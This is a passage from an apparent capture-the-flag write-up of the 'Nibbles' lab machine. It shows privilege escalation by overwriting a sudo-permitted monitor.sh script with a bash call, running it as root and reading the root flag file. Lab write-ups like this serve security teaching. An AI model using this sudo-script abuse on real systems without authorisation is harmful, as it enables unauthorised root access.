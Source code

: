 And in the `monitor.sh` script, I added the following code.
```
#!/bin/sh
bash
```

Made it executable and ran the script.
```
chmod +x monitor.sh
```

```
sudo ./monitor.sh
```

And we're root!!!

```
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```

And we can grab the root flag
```
root@Nibbles:/home/nibbler/personal/stuff# cat /root/root.txt
[REDACTED]
```
